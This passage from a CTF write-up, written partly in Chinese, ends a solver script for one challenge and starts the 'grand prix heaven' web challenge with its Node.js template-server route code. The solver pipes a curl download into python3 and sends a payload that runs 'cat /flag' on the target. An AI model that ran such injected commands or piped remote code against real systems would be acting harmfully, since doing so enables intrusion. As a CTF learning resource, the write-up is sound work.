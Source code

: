 ```python
r.sendline(subprocess.run(f'bash -c "python3 <(curl -sSL https://goo.gle/kctf-pow) solve {token}"', shell=True, capture_output=True).stdout.strip())

sys.stdout.buffer.write(r.recvrepeat(timeout=1))

r.sendline(genpayload('cat /flag > /proc/1/fd/1').encode())

sys.stdout.buffer.write(r.recvrepeat(timeout=1))
```

### Flag

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/da8df9df-d116-4fd3-8704-363ae2931c8e)

`CTF{LiesDamnedLiesAndBashParsingDifferentials}`



## grand prix heaven

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/7570101d-444d-444f-b05e-72170b0b3698)

### 概述

這題有個網頁

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/c534a673-d576-4aae-9acd-513b1fa7731a)

可以 post 自己喜歡的車的圖片以及他的資訊，也可以用網址查看 post 後的車

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/85a74c69-789d-483a-99ad-aa6b43b63e5f)

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/ec752fca-8fe5-4a61-8b37-835eaf467a3e)

接著他有兩個 server，一個是網頁，另一個是 template server，都是 nodejs，首先看看首頁的後端程式，我們可以注意到所有的 frontend route 都會有一個 template pieces，接著 web server 會把這個 template pieces 用 `multipart/form-data` 送到 template server，然後 template server 會依照這個 list 組合成一個 html 並回傳，然後 web server 再回傳這個 html 給 client。

```js
app.get("/", async (req, res) => {
  try {
    var data = {
      0: "csp",
      1: "head_end",
      2: "index",
      3: "footer",
    };
    await needle.post(
      TEMPLATE_SERVER,
      data,
      { multipart: true, boundary: BOUNDARY },
      function (err, resp, body) {
        if (err) throw new Error(err);
        return res.send(body);
      }
    );
  } catch (e) {
    console.log(`ERROR IN /:\n${e}`);
    return res.status(500).json({ error: "error" });
  }
});
```
